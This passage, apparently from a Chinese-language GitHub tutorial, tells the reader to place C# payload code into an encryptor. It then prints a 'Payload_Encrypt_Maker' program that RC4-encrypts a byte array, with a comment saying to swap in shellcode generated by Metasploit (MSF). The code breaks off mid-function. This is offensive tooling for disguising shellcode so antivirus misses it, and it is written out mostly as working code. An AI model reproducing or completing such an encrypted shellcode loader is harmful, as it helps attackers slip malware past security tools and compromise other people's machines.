 
把上面`payload.txt`中的c#代码放入下面的加密代码中

加密代码

```
using System;
using System.Collections.Generic;
using System.IO;
using System.Linq;
using System.Security.Cryptography;
using System.Text;
using System.Threading.Tasks;
using System.Reflection;
using System.Runtime.CompilerServices;
using System.Runtime.InteropServices;


namespace Payload_Encrypt_Maker
{ class Program
    {  
         // 加密密钥，可以更改，加解密源码中保持KEY一致就行
        static byte[] KEY = { 0x11, 0x22, 0x11, 0x00, 0x00, 0x01, 0xd0, 0x00, 0x00, 0x11, 0x00, 0x00, 0x00, 0x00, 0x00, 0x11, 0x00, 0x11, 0x01, 0x11, 0x11, 0x00, 0x00 };
        static byte[] IV = { 0x00, 0xcc, 0x00, 0x00, 0x00, 0xcc };
        static byte[] payload ={0x6b,0xa9};    // 替换成MSF生成的shellcode
      
        private static class Encryption_Class
        {
            public static string Encrypt(string key, string data)
            {
                Encoding unicode = Encoding.Unicode;

                return Convert.ToBase64String(Encrypt(unicode.GetBytes(key), unicode.GetBytes(data)));
            }

            

            public static byte[] Encrypt(byte[] key, byte[] data)
            {
                return EncryptOutput(key, data).ToArray();
            }

           

            private static byte[] EncryptInitalize(byte[] key)
            {
                byte[] s = Enumerable.Range(0, 256)
                  .Select(i => (byte)i)
                  .ToArray();

                for (int i = 0, j = 0; i < 256; i++)
                {
                    j = (j + key[i % key.Length] + s[i]) & 255;

                    Swap(s, i, j);
                }

                return s;
            }

            private static IEnumerable<byte> EncryptOutput(byte[] key, IEnumerable<byte> data)
            {
                byte[] s = EncryptInitalize(key);
```